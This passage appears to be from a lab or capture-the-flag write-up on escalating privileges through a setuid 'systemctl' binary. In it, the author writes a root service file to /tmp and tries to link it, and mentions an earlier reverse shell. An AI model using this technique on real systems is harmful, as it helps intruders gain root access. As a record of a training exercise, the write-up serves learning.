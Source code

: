 ![evidence](./static/13-systemctl-privesc.png)

When I read them both, then I understand that I can start any services with `root` privileges, and I start testing, but I notice that the reverse shell connection was closed. When I perform the reverse shell again, then I notice that `systemctl` no longer has the setuid permission, and this is very strange, but it explains why in the first case I could see it, and I restore the machine again. When I write a service file to the `/tmp` directory:
```shell
$ www-data@kb-server:/tmp$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "id > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > root.service
```
And I enable it with the `systemctl` command:
```shell
$ www-data@kb-server:/tmp$ systemctl link root.service
Link argument does contain at least one directory separator: root.service
```
Then I can see an error. When I google `Failed to link unit: No such file or directory`, then I find the question [I cant enable or disable a user service failed to execute operation no sufh file or directory](https://unix.stackexchange.com/questions/225319/i-cant-enable-or-disable-a-user-service-failed-to-execute-operation-no-such-f):
